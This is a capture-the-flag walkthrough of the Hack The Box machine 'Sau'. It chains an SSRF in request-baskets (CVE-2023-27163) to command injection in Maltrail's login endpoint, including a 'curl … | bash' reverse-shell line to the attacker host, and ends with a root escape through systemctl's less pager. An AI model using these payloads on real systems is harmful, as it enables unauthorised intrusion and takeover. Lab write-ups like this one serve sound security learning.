



## Overview

---

> Sau is an easy linux box that hosts an website on a non standard port. Exploiting an SSRF vulnerability on the site allowed for the exploitation of a command injection flaw within an internal Mailtrail application, leading to a shell as the user `puma`. Next, user puma has sudo privileges for `systemctl`, and the `less` pager is exploited to escalate privileges.

---

## Enumeration

---

### Open Ports

Found two open and two filtered ports using nmap

- Port 22 is running OpenSSH.
- Port 55555 seems to be HTTP as it responds to a GET request.

```bash
> nmap -p- -Pn -T4 --min-rate 1000 --max-retries 5 -oA 10.129.14.169/10.129.14.169_fullScan 10.129.14.169
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-11 13:29 EDT
Nmap scan report for 10.129.14.169
Host is up (0.17s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown

> nmap -p22,80,8338,55555 -sV -sC -T4 -Pn -oA 10.129.14.169/10.129.14.169 10.129.14.169
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-11 13:35 EDT
Nmap scan report for 10.129.14.169
Host is up (0.17s latency).

PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Tue, 11 Jul 2023 17:36:09 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest:
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Tue, 11 Jul 2023 17:35:40 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions:
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Tue, 11 Jul 2023 17:35:41 GMT
|_    Content-Length: 0
```

### port 55555 - HTTP

A GET request to the website on port 55555 redirects to the `/web` directory. The response headers didn't reveal anything else of interest.

```bash
> http -ph 10.129.14.169:55555
HTTP/1.1 302 Found
Content-Length: 27
Content-Type: text/html; charset=utf-8
Date: Tue, 11 Jul 2023 17:35:57 GMT
Location: /web

```

The `/web` page offers the capability to create something called **request basket** using the [request-basket](https://github.com/darklynx/request-baskets) web service. Additionally, the page indicates that the version in use is 1.2.1.



Upon creating a basket, I found that I could send requests to it, and the service effectively echoes back the User-Agent header I used. However, I wasn't able to find any vulnerabilities to exploit.



---

## Initial Foothold

---

### Exploiting SSRF in requests-basket

Looking for vulnerabilities in requests-baskets v1.2.1, I discovered [GitHub Advisory for CVE-2023-27163](https://github.com/advisories/GHSA-58g2-vgpg-335q). According to this advisory, the `/api/baskets/{basket_name}` endpoint is susceptible to Server Side Request Forgery (SSRF) because of two parameters, namely `forward_url` and `proxy_response`.

> proxy_response: If set to true this basket behaves as a full proxy: responses from underlying service configured in forward_url are passed back to clients of original requests. The configuration of basket responses is ignored in this case.

With `proxy_response` is turned on, the website will actually forward a request to whatever address is listed in `forward_url`. This means I could try to get a peek at internal resources (SSRF). Since, nmap had returned port 80 as a filtered port, used the SSRF vuln to investigate that. I created a basket named `ssrf_80` and set the `forward_url` to `http://127.0.0.1:80`.

```bash
> http POST 10.129.14.169:55555/api/baskets/ssrf_80 \
forward_url="http://127.0.0.1:80" \
proxy_response:=true \
insecure_tls:=false \
expand_path:=true \
capacity:=250 \
--follow
HTTP/1.1 201 Created
Content-Length: 56
Content-Type: application/json; charset=UTF-8
Date: Wed, 12 Jul 2023 09:44:46 GMT

{
    "token": "BQV43XpBInq-twILBVnzsPkpfxZFGMmybszOw2kN7G0n"
}
```

The request to `127.0.0.1:80` can be inspected at  `http://<IP>:55555/ssrf_80`. The page returned a Maltrail page, version 0.53, w/o rendering any JavaScript or CSS. Interestingly, the page also made a reference to a login page.



Curiously, port 8443 also leads to the same Maltrail site.

### Command Injection in Mailtrail

Looking for vulnerabilities in Mailtrail v0.53, I came across a [huntr bounty report](https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/) indicating a vulnerability to OS Command Injection. The report highlights that the `/login` endpoint utilizes the `subprocess.check_output()` function with an unsanitized username parameter. This vulnerability allows for command injection using a semicolon `;`.

First, I create a basket to proxy Mailtrail's `/login` endpoint.

```bash
> http POST 10.129.14.169:55555/api/baskets/ssrf_80_login \
forward_url="http://127.0.0.1:80/login" \
proxy_response:=true \
insecure_tls:=false \
expand_path:=true \
capacity:=250 \
--follow
HTTP/1.1 201 Created
Content-Length: 56
Content-Type: application/json; charset=UTF-8
Date: Wed, 12 Jul 2023 09:51:30 GMT

{
    "token": "qoNJjntQv2qVxraW0ffJ_GWGycCh-YxyGiOE4umMQbiz"
}
```

Since this is a _blind command injection_, I won't get any direct feedback from the server to see if my commands are working. To test it out, I'm going to try having the server ping my own computer.

```bash
> http POST 10.129.14.169:55555/ssrf_80_login username=';`ping -c 3 10.10.14.162`' -f
HTTP/1.1 401 Unauthorized
Connection: close
Content-Encoding: gzip
Content-Length: 38
Content-Type: text/plain
Date: Wed, 12 Jul 2023 10:19:37 GMT
Server: Maltrail/0.53

Login failed

```

And I can see ICMP packets being captured on my attack box using tcpdump

```bash
> _ tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
06:19:43.718093 IP 10.129.14.169 > 10.10.14.162: ICMP echo request, id 2, seq 1, length 64
06:19:43.718121 IP 10.10.14.162 > 10.129.14.169: ICMP echo reply, id 2, seq 1, length 64
06:19:44.719166 IP 10.129.14.169 > 10.10.14.162: ICMP echo request, id 2, seq 2, length 64
06:19:44.719186 IP 10.10.14.162 > 10.129.14.169: ICMP echo reply, id 2, seq 2, length 64
06:19:45.722948 IP 10.129.14.169 > 10.10.14.162: ICMP echo request, id 2, seq 3, length 64
06:19:45.722973 IP 10.10.14.162 > 10.129.14.169: ICMP echo reply, id 2, seq 3, length 64
```

The typical ways of getting a remote shell weren't working for some reason. I'm guessing it had to do with how the website was handling the commands I was injecting. To overcome this, I wrote the payload to a file and hosted it from my attack box, and subsequently executed it to get a shell as `puma`.

```bash
> http POST 10.129.14.169:55555/ssrf_80_login username=';`curl 10.10.14.162/revshell.sh | bash`' -f
```

```bash
> pc -lp 9005
[06:27:46] Welcome to pwncat 🐈!                                                                    __main__.py:164
[06:30:21] received connection from 10.129.14.169:53468                                                  bind.py:84
[06:30:25] 10.129.14.169:53468: registered new host w/ db                                            manager.py:957
(local) pwncat$
(remote) puma@sau:/opt/maltrail$ id
uid=1001(puma) gid=1001(puma) groups=1001(puma)

```

---

## Privilege Escalation

---

The user puma has sudo privileges to check the status of the mailtrail service using systemctl.

```bash
(remote) puma@sau:/home/puma$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

Unfortunately, I lack write permission on the service file, nor can I exploit the scripts it's invoking.

```bash
(remote) puma@sau:/home/puma$ ls -la /etc/systemd/system/trail.service
-rwxr-xr-x 1 root root 461 Apr 15 09:21 /etc/systemd/system/trail.service

(remote) puma@sau:/home/puma$ cat /etc/systemd/system/trail.service
[Unit]
Description=Maltrail. Server of malicious traffic detection system
Documentation=https://github.com/stamparm/maltrail#readme
Documentation=https://github.com/stamparm/maltrail/wiki
Requires=network.target
Before=maltrail-sensor.service
After=network-online.target

[Service]
User=puma
Group=puma
WorkingDirectory=/opt/maltrail
ExecStart=/usr/bin/python3 server.py
Restart=on-failure
KillMode=mixed

[Install]
WantedBy=multi-user.target

(remote) puma@sau:/home/puma$ ls -al /opt/maltrail/server.py
-rwxrwxr-x 1 root root 5101 Jan 31 18:18 /opt/maltrail/server.py
```

### Exploiting less pager

Taking advantage of the fact that systemctl uses `less` as its default pager, I can [potentially exploit it](https://github.com/systemd/systemd/issues/5666) based on the `LESSSECURE` flag. Within the pager, using `!<command>` allows the execution of commands. As systemctl itself is executed as root, any commands invoked via less will also run with root privileges.

```bash
(remote) puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset: enabled)
     Active: active (running) since Tue 2023-07-11 16:34:32 UTC; 18h ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 874 (python3)
      Tasks: 11 (limit: 4662)
     Memory: 123.4M
     CGroup: /system.slice/trail.service
             ├─ 874 /usr/bin/python3 server.py
             ├─2642 /bin/sh -c logger -p auth.info -t "maltrail[874]" "Failed password for ;`curl 10.10.14.162/rev>
             ├─2643 /bin/sh -c logger -p auth.info -t "maltrail[874]" "Failed password for ;`curl 10.10.14.162/rev>
!id
uid=0(root) gid=0(root) groups=0(root)
!done  (press RETURN)

```

Similarly, I can get a shell by invoking `bash` or `sh`

```bash
!bash
root@sau:/opt/maltrail# id
uid=0(root) gid=0(root) groups=0(root)
root@sau:/opt/maltrail# cd /root
root@sau:~# ls -al root.txt
-rw-r----- 1 root root 33 Jul 11 16:35 root.txt
```

**Pwned**

<!--  -->

## Beyond root

I was curious how how both port 80 and port 8443 returned the same site via SSRF, so decided to dig into that. Interestingly port 80 isn't open, only port 8443 is. This is strange since my exploits were based off of port 80.

```bash
(remote) root@sau:/opt/maltrail# ss -antlp
State   Recv-Q   Send-Q     Local Address:Port      Peer Address:Port  Process
LISTEN  0        5                0.0.0.0:8338           0.0.0.0:*      users:(("python3",pid=874,fd=3))
LISTEN  0        4096       127.0.0.53%lo:53             0.0.0.0:*      users:(("systemd-resolve",pid=833,fd=13))
LISTEN  0        128              0.0.0.0:22             0.0.0.0:*      users:(("sshd",pid=886,fd=3))
LISTEN  0        4096                   *:55555                *:*      users:(("rbaskets",pid=3109,fd=3))
LISTEN  0        128                 [::]:22                [::]:*      users:(("sshd",pid=886,fd=4))
```

Examining the iptable rules:

- Traffic to port 80 and 8338 is dropped unless it originates from 127.0.0.1.
- Additionally, all traffic to port 80 is redirected to port 8338.

This explains why the ports were marked filtered by nmap and why I was able to use port 80 in the exploits.

```bash
(remote) root@sau:/opt/maltrail# iptables -S
-P INPUT ACCEPT
-P FORWARD ACCEPT
-P OUTPUT ACCEPT
-A INPUT ! -s 127.0.0.1/32 -p tcp -m tcp --dport 80 -j DROP
-A INPUT ! -s 127.0.0.1/32 -p tcp -m tcp --dport 8338 -j DROP
(remote) root@sau:/opt/maltrail# iptables -L -n
Chain INPUT (policy ACCEPT)
target     prot opt source               destination
DROP       tcp  -- !127.0.0.1            0.0.0.0/0            tcp dpt:80
DROP       tcp  -- !127.0.0.1            0.0.0.0/0            tcp dpt:8338

Chain FORWARD (policy ACCEPT)
target     prot opt source               destination

Chain OUTPUT (policy ACCEPT)
target     prot opt source               destination
(remote) root@sau:/opt/maltrail# iptables --table nat --list
Chain PREROUTING (policy ACCEPT)
target     prot opt source               destination

Chain INPUT (policy ACCEPT)
target     prot opt source               destination

Chain OUTPUT (policy ACCEPT)
target     prot opt source               destination
REDIRECT   tcp  --  anywhere             localhost            tcp dpt:http redir ports 8338

Chain POSTROUTING (policy ACCEPT)
target     prot opt source               destination
```

---

# Related Links

- [request-baskets vulnerable to Server-Side Request Forgery · CVE-2023-27163 · GitHub Advisory Database](https://github.com/advisories/GHSA-58g2-vgpg-335q)
- [request-baskets SSRF details - CodiMD](https://notes.sjtu.edu.cn/s/MUUhEymt7)
- [Request Baskets API Docs](https://rbaskets.in/api.html#tag/Deprecated-API/operation/createBasketOld)
- [Unauthenticated OS Command Injection in stamparm/maltrail vulnerability found in maltrail](https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/)
- [systemctl | GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/)
- <https://man7.org/linux/man-pages/man1/less.1.html>
